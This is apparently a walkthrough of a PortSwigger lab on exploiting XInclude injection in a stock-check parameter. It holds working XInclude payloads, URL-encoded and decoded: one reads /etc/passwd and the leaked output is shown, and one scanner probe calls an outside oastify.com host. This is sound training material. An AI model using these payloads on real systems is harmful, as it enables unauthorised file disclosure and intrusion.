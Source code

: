 # [Lab: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

## Lab

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic  [XXE](https://portswigger.net/web-security/xxe)  attack.

To solve the lab, inject an  `XInclude`  statement to retrieve the contents of the  `/etc/passwd`  file.

## Analysis

check stock request:

```x-www-form-urlencoded
productId=1&storeId=1
```

## tools

- burpsuite scanner: detected `Issue: Out-of-band resource load (HTTP)`

  - request:

    ```x-www-form-urlencoded
    productId=%3ccdk%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20href%3d%22http%3a%2f%2f2ehqp9rwyejdbdt4wd22d5b7xy3p5dv1wpoce03.oastify.com%2ffoo%22%2f%3e%3c%2fcdk%3e&storeId=1
    ```

  - url-decoded request:

    ```x-www-form-urlencoded
    productId=<cdk xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://2ehqp9rwyejdbdt4wd22d5b7xy3p5dv1wpoce03.oastify.com/foo"/></cdk>&storeId=1
    ```

  - => xxe xinclude attack

## Solutions

request's body:

```text
productId=%3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%0d%0a%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e&storeId=1
```

decoded:

```text
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

response:

```text
"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```
